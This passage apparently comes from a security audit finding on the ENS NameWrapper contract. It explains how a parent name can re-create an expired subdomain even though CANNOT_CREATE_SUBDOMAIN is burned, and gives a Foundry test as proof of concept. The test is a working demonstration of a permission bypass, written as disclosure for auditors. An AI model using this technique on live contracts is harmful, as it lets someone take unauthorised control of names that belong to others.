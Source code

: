 Since an expired name is technically unwrapped, even a parent with `CANNOT_CREATE_SUBDOMAIN` can set the owner or records of the subdomain as the proof of concept below shows.

```solidity
    function testM3ExpiredNameCreate() public {
        // After expired, the ens.owner's address is non-zero
        // therefore, the parent can 'create' the name evne CANNOT_CREATE_SUBDOMAIN is burned
        string memory parent = 'vitalik.eth';
        string memory sub1_full = 'sub1.vitalik.eth';
        string memory sub1 = 'sub1';
        (, bytes32 parent_node) = parent.dnsEncodeName();
        (bytes memory sub1_dnsname, bytes32 sub1_node) = sub1_full.dnsEncodeName();

        // wrap parent and lock
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, uint16(CANNOT_UNWRAP), address(0));
        // checks
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP);
        assertEq(expiry, 2038123728);

        // create subnode
        vm.prank(user1);
        nameWrapper.setSubnodeOwner(parent_node, 'sub1', user2, PARENT_CANNOT_CONTROL, 1700000000);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, user2);
        assertEq(fuses, PARENT_CANNOT_CONTROL);
        assertEq(expiry, 1700000000);

        // now parent cannot create subdomain
        vm.prank(user1);
        nameWrapper.setFuses(parent_node, uint16(CANNOT_CREATE_SUBDOMAIN));
        (owner, fuses, expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP | CANNOT_CREATE_SUBDOMAIN);
        // parent: pcc cu CANNOT_CREATE_SUBDOMAIN
        // child: pcc
        // unwrap and sets the owner to zero

        // parent cannot use setSubnodeRecord on PCCed sub
        vm.expectRevert(abi.encodeWithSelector(OperationProhibited.selector, sub1_node));
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, user1, address(1), 10, 0, 0);

        // expire sub1
        vm.warp(1700000001);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(0));
        assertEq(fuses, 0);
        assertEq(expiry, 1700000000);
        assertEq(ens.owner(sub1_node), address(nameWrapper));

        // user1 can re-"create" sub1 even though CANNOT_CREATE_SUBDOMAIN is set on parent
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, address(3), address(11), 10, 0, 0);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(3));
        assertEq(fuses, 0);
        assertEq(expiry, 1700000000);
        assertEq(ens.owner(sub1_node), address(nameWrapper));

```